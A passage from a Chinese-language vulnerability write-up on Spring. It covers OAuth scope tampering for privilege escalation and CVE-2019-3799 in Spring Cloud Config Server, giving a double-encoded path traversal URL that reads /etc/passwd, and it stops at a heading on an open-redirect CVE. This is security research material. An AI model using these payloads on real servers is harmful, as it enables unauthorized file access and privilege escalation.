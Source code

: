 使用了EnableResourceServer并且用了`AuthorizationRequest`的话。那么攻击者可以重新发送一次用过的验证请求，或者进行相应参数修改，从而造成权限提升。

例如劫持code，并且篡改其中的scope到all的话：

```


1.  `http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://127.0.0.1&scope=openid`


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/3343e030-7d1a-49fb-b111-9b40035454d4.png?raw=true)

即授权了读取权限的时候，修改为all就可以获得全部权限。

### [](#CVE-2019-3799-Spring-Cloud-Config-Server-目录遍历 "CVE-2019-3799 Spring Cloud Config Server: 目录遍历")CVE-2019-3799 Spring Cloud Config Server: 目录遍历

影响版本：Spring-Cloud-Config-Server < 2.1.2, 2.0.4, 1.4.6

下载受影响的版本构建：[https://github.com/spring-cloud/spring-cloud-config](https://github.com/spring-cloud/spring-cloud-config)

```


1.  `cd spring-cloud-config-server` 
2.  `../mvnw spring-boot:run`


```

构建成功后访问：

```


1.  `http://127.0.0.1:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd` 


```

!\[image-20200401100511941\](Spring 漏洞.assets/image-20200401100511941.png)

其中路径代表：`/{name}/{profile}/{label}/`，如下中所显示的json。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/40a21e9d-d149-4388-b8fa-92cd8fcc1d3c.png?raw=true)

### [](#CVE-2019-3778-Spring-Security-OAuth-开放重定向 "CVE-2019-3778 Spring Security OAuth 开放重定向")CVE-2019-3778 Spring Security OAuth 开放重定向

影响版本：
